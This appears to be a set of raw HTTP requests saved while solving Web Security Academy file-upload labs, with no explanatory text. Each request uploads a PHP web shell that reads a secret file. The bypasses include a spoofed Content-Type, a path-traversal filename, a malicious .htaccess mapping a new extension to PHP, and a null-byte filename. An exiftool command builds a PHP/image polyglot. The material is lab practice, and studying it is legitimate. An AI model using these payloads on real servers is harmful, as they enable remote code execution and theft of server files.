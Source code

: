 POST /my-account/avatar HTTP/1.1
Host: 0aec001b0344bd55c0d26cc000a80055.web-security-academy.net
Cookie: session=L03384c0RYURB5Xfl41HyyTWxHPwBL0B
Content-Length: 477
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0aec001b0344bd55c0d26cc000a80055.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarynYk673useyENjk9j
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aec001b0344bd55c0d26cc000a80055.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundarynYk673useyENjk9j
Content-Disposition: form-data; name="avatar"; filename="webshell.php"
Content-Type: image/jpeg

<?php echo file_get_contents('/home/carlos/secret'); ?>
------WebKitFormBoundarynYk673useyENjk9j
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundarynYk673useyENjk9j
Content-Disposition: form-data; name="csrf"

txmGAdjcoqXBX327evAD6sUMelXmBp4P
------WebKitFormBoundarynYk673useyENjk9j--













POST /my-account/avatar HTTP/1.1
Host: 0aab0010040d6a65c0af168400f40040.web-security-academy.net
Cookie: session=17NneFiObQjCqhRdwEZXNigSZJaGXUzT
Content-Length: 488
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0aab0010040d6a65c0af168400f40040.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary0BrzMnfeGY9kdKAg
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aab0010040d6a65c0af168400f40040.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundary0BrzMnfeGY9kdKAg
Content-Disposition: form-data; name="avatar"; filename="%2e%2e%2fwebshell.php"
Content-Type: application/octet-stream

<?php echo file_get_contents('/home/carlos/secret'); ?>
------WebKitFormBoundary0BrzMnfeGY9kdKAg
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundary0BrzMnfeGY9kdKAg
Content-Disposition: form-data; name="csrf"

HZ8zT06NVNV66efi7e8Xzf4iwXpYmzRu
------WebKitFormBoundary0BrzMnfeGY9kdKAg--















POST /my-account/avatar HTTP/1.1
Host: 0a68001c03b65fe3c17fc9af00410030.web-security-academy.net
Cookie: session=LLZ6VoRs4q8gP1QxXWaaofYufFlvbmuZ
Content-Length: 477
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a68001c03b65fe3c17fc9af00410030.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryDSFEh0JFVCvmPlf0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a68001c03b65fe3c17fc9af00410030.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundaryDSFEh0JFVCvmPlf0
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain

AddType application/x-httpd-php .l33t
------WebKitFormBoundaryDSFEh0JFVCvmPlf0
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryDSFEh0JFVCvmPlf0
Content-Disposition: form-data; name="csrf"

xj3KjIts5dgbWHYUzpmH3ot3qDpWc5NY
------WebKitFormBoundaryDSFEh0JFVCvmPlf0--


HTTP/1.1 403 Forbidden
Date: Wed, 21 Sep 2022 15:22:33 GMT
Server: Apache/2.4.41 (Ubuntu)
Connection: close
Content-Type: text/html; charset=UTF-8
Content-Length: 164

Sorry, php files are not allowed
Sorry, there was an error uploading your file.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>


POST /my-account/avatar HTTP/1.1
Host: 0a68001c03b65fe3c17fc9af00410030.web-security-academy.net
Cookie: session=LLZ6VoRs4q8gP1QxXWaaofYufFlvbmuZ
Content-Length: 442
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a68001c03b65fe3c17fc9af00410030.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryDSFEh0JFVCvmPlf0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a68001c03b65fe3c17fc9af00410030.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundaryDSFEh0JFVCvmPlf0
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain

AddType application/x-httpd-php .l33t
------WebKitFormBoundaryDSFEh0JFVCvmPlf0
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryDSFEh0JFVCvmPlf0
Content-Disposition: form-data; name="csrf"

xj3KjIts5dgbWHYUzpmH3ot3qDpWc5NY
------WebKitFormBoundaryDSFEh0JFVCvmPlf0--


POST /my-account/avatar HTTP/1.1
Host: 0a68001c03b65fe3c17fc9af00410030.web-security-academy.net
Cookie: session=LLZ6VoRs4q8gP1QxXWaaofYufFlvbmuZ
Content-Length: 478
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a68001c03b65fe3c17fc9af00410030.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryDSFEh0JFVCvmPlf0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a68001c03b65fe3c17fc9af00410030.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundaryDSFEh0JFVCvmPlf0
Content-Disposition: form-data; name="avatar"; filename="webshell.l33t"
Content-Type: application/octet-stream

<?php echo file_get_contents('/home/carlos/secret'); ?>
------WebKitFormBoundaryDSFEh0JFVCvmPlf0
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryDSFEh0JFVCvmPlf0
Content-Disposition: form-data; name="csrf"

xj3KjIts5dgbWHYUzpmH3ot3qDpWc5NY
------WebKitFormBoundaryDSFEh0JFVCvmPlf0--
















POST /my-account/avatar HTTP/1.1
Host: 0af100db04f5606dc02526400075007b.web-security-academy.net
Cookie: session=vbd7HqOQWgNnIoa5h8zSB7FrUWZxItXE
Content-Length: 484
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="98"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0af100db04f5606dc02526400075007b.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryMDXzpZboe1Xp6FP0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0af100db04f5606dc02526400075007b.web-security-academy.net/my-account
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

------WebKitFormBoundaryMDXzpZboe1Xp6FP0
Content-Disposition: form-data; name="avatar"; filename="webshell.php%00.jpg"
Content-Type: application/octet-stream

<?php echo file_get_contents('/home/carlos/secret'); ?>
------WebKitFormBoundaryMDXzpZboe1Xp6FP0
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundaryMDXzpZboe1Xp6FP0
Content-Disposition: form-data; name="csrf"

8sjgseth3KCc2Gd8egHdePWeWsw0kVIe
------WebKitFormBoundaryMDXzpZboe1Xp6FP0--










https://exiftool.org/index.html

https://thecyberjedi.com/php-shell-in-a-jpeg-aka-froghopper/

exiftool.exe -Comment="<?php echo 'START' . file_get_contents('/home/carlos/secret') . 'END' ; ?>" C:\path\to\image.png -o polygot.php










